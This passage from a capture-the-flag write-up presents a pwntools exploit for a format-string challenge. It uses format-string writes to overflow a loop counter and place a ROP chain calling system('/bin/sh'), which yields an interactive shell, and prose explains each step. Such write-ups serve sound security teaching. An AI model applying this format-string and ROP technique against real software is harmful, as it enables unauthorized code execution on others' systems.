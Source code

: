 > This is something new I'm experimenting with.

This code will search the libc-database and return an array of matches; through trial and error the 3rd (see `libc_index = 3` above) is the libc that works with this challenge.


### Get a shell, get the flag

```python
offset = 8
rop = ROP([libc])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

# unlimited free rides
payload = fmtstr_payload(offset,{stack_ret_addr-0x5c:0x80000000})
p.sendline(payload)
null = payload.find(b'\x00')
p.recvuntil(payload[null-2:null])

payloads = [pop_rdi + 1,pop_rdi,libc.search(b'/bin/sh').__next__(),libc.sym.system]
for i in range(len(payloads)):
    payload=fmtstr_payload(offset,{stack_ret_addr+8*i:payloads[i]},write_size='short')
    p.sendline(payload)
    null = payload.find(b'\x00')
    p.recvuntil(payload[null-2:null])

# game over
payload = fmtstr_payload(offset,{stack_ret_addr-0x5c:0x00000003})
p.sendline(payload)
null = payload.find(b'\x00')
p.recvuntil(payload[null-2:null])
p.interactive()
```

This challenge has two constraints we have to deal with.  First, `fgets` only _gets_ 64 (`0x40`) bytes.  That is pretty small for a large format string exploit.  Second, `local_5c` once incremented to `3` exits the loop.  We burned the first pass leaking info.  Furthermore, each pass can really only write out one 8-byte format-string payload.  With two passes we could use _one gadget_ plus write out a NULL for it's constraint.  However I opted for a more portable solution (I'm sure there will be many _one gadget_ write ups).

The first block, after setting up `pop_rdi`, will change `local_5c` to a very large negative number (`0x80000000` (-2147483648)).  Since the compare is with an `int` we can leverage an integer overflow vulnerability.  Thanks to Ghidra we know where `local_5c` is as well, just by it's name, i.e. `0x5c` from the return address in the stack.

Now with unlimited passes we can write out a ROP chain to get `system` from libc.

The `payloads` array is standard CTF fare.  The for loop uses format-string exploits to write out the payload starting from the return address in the stack.

To exit the loop we write `3` to `local_5c`.

> The following lines capture all the format-string exploit garbage for pretty screen grabs (for write-ups):
> 
> ```python
> null = payload.find(b'\x00')
> p.recvuntil(payload[null-2:null])
> ``` 
